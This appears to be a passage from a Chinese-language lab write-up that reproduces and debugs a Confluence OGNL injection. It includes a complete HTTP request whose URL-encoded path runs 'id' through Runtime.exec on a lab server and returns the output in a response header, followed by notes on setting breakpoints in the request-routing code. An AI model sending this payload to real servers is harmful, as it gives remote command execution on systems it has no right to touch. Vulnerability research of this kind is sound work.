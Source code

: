 然后运行根目录下的 shutdown-wait.sh 文件将 confluence 关掉，然后重启一下即可

payload

```
GET /login.action/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 192.168.157.138:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: confluence.browse.space.cookie=space-blogposts; JSESSIONID=5F4E90D9120DBBD2BE3C15012420DD22
Upgrade-Insecure-Requests: 1
```

在源码路径：![image-20221006193426977](assets\image-20221006193426977.png)

下断点，抓包发送payload。

在 this.serviceAction 中通过 this.getNameSpace 和 this.getActionName 来处理请求中的路由和端点

![image-20221006193541952](assets\image-20221006193541952.png)
